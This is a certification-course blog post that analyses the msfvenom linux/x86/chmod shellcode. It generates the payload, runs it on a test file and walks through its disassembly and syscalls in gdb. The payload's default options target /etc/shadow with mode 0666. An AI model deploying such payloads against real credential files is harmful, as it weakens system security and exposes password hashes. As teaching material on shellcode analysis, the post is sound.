 ```yaml
---
layout: post
title:  "SLAE Assignment 5.3 - Msfvenom linux/x86/chmod shellcode Analysis"
date:   2017-04-26
categories: certification
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Assignment 5.3:  
  
**Our Goal:**  
> *Take up at least 3 linux/x86 shellcodes using Msfpayload (now Msfvenom)*
 - *Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode*
 - *Present your analysis*  
  
Hello everybody,  
  
Here we are for the last shellcode of the msfvenom serie. We will use this time the **linux/x86/chmod** shellcode and will analyse it thanks to GDB:  
```bash
# msfvenom -p linux/x86/chmod --payload-options
Options for payload/linux/x86/chmod:


       Name: Linux Chmod
       Module: payload/linux/x86/chmod
       Platform: Linux
       Arch: x86
       Needs Admin: No
       Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current          Setting     Required  Description
----  ---------------  --------    -----------
FILE  /etc/shadow      yes         Filename to chmod
MODE  0666             yes         File mode (octal)

Description:
  Runs chmod on specified file with specified mode
...
```
  
Let's generate the ELF:  
```bash
# msfvenom -p linux/x86/chmod FILE=/tmp/slae.txt -f elf -o chmod_slae
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 38 bytes
Final size of elf file: 122 bytes
Saved as: chmod_slae
# ls -l /tmp/slae.txt 
-r--r--r-- 1 root root 0 avril 22 04:54 /tmp/slae.txt
# chmod +x ./chmod_slae && ./chmod_slae
# ls -l /tmp/slae.txt 
-rw-rw-rw- 1 root root 0 avril 22 04:54 /tmp/slae.txt
```
  
Perfect we see that our file **/tmp/slae.txt** has now the octal right **666** standing for **rw-rw-rw-**.  Let's have a look in gdb:  
```
# readelf -h ./chmod_slae
...
Adresse du point d'entrée:    0x8048054 
...
# gdb -q ./chmod_slae 
Reading symbols from ./chmod_slae...(no debugging symbols found)...done.
gdb-peda$ br *0x8048054
Breakpoint 1 at 0x8048054
gdb-peda$ run
gdb-peda$ disas $eip,+38
Dump of assembler code from 0x8048054 to 0x804807a:
=> 0x08048054:	cdq    
   0x08048055:	push   0xf
   0x08048057:	pop    eax
   0x08048058:	push   edx
   0x08048059:	call   0x804806c
   0x0804805e:	das    
   0x0804805f:	je     0x80480ce
   0x08048061:	jo     0x8048092
   0x08048063:	jae    0x80480d1
   0x08048065:	popa   
   0x08048066:	gs cs je 0x80480e2
   0x0804806a:	je     0x804806c
   0x0804806c:	pop    ebx
   0x0804806d:	push   0x1b6
   0x08048072:	pop    ecx
   0x08048073:	int    0x80
   0x08048075:	push   0x1
   0x08048077:	pop    eax
   0x08048078:	int    0x80
End of assembler dump.
```

Let's add some breakpoints on interesting opcodes:  
```bash
gdb-peda$ br *0x0804806c
Breakpoint 2 at 0x804806c
gdb-peda$ br *0x08048073
Breakpoint 3 at 0x8048073
gdb-peda$ br *0x08048078
Breakpoint 4 at 0x8048078
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0xf 
EBX: 0x0 
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xbffff2c8 --> 0x804805e ("/tmp/slae.txt")
EIP: 0x804806c --> 0x1b6685b
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048065:	popa   
   0x8048066:	gs cs je 0x80480e2
   0x804806a:	je     0x804806c
=> 0x804806c:	pop    ebx
   0x804806d:	push   0x1b6
   0x8048072:	pop    ecx
   0x8048073:	int    0x80
   0x8048075:	push   0x1
[------------------------------------stack-------------------------------------]
0000| 0xbffff2c8 --> 0x804805e ("/tmp/slae.txt")
0004| 0xbffff2cc --> 0x0 
0008| 0xbffff2d0 --> 0x1 
0012| 0xbffff2d4 --> 0xbffff478 ("/root/Documents/pentest/certs/slae/exam/assignment5.3/chmod_slae")
0016| 0xbffff2d8 --> 0x0 
0020| 0xbffff2dc --> 0xbffff4b9 ("XDG_VTNR=2")
0024| 0xbffff2e0 --> 0xbffff4c4 ("XDG_SESSION_ID=2")
0028| 0xbffff2e4 --> 0xbffff4d5 ("SSH_AGENT_PID=1067")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```  
  
Notice that we are using [gdb-peda](https://github.com/longld/peda).  Thanks to the call technique the next instruction ``` pop ebx ``` will pop the address of the string */tmp/slae* in the EBX register.  
  
So we will have:  
```bash
EAX: 0xf 
EBX: 0x804805e (/tmp/slae.txt) 
```  
  
Finally if we stop at the address **0x8048073** just before our syscall:  
```bash
EAX: 0xf 
EBX: 0x804805e ("/tmp/slae.txt")
ECX: 0x1b6 
```
  
We will call ``` int chmod(const char *pathname, mode_t mode); ```. The second argument **0x1b6** is **666** in octal:  
```bash
# printf "%o\n" 0x1b6
666
```  
  
Let's go to the following breakpoint:  
```bash
EAX: 0x1 
EBX: 0x804805e (/tmp/slae.txt) 
```
  
We will call ``` void _exit(int status); ```, the exit status is not important in a shellcode execution context, so we won't add an opcode to set EBX.  

Finally, our shellcode will change the permissions of our file:  
```bash
gdb-peda$ n
[Inferior 1 (process 24785) exited with code 0136]
Warning: not running or target is remote
```
  
So we just finished our msfvenom shellcodes serie. Soon we will deal with polymorphic shellcodes and crypters.  
Hope you enjoyed this post.    
  
[Phackt](https://twitter.com/phackt_ul)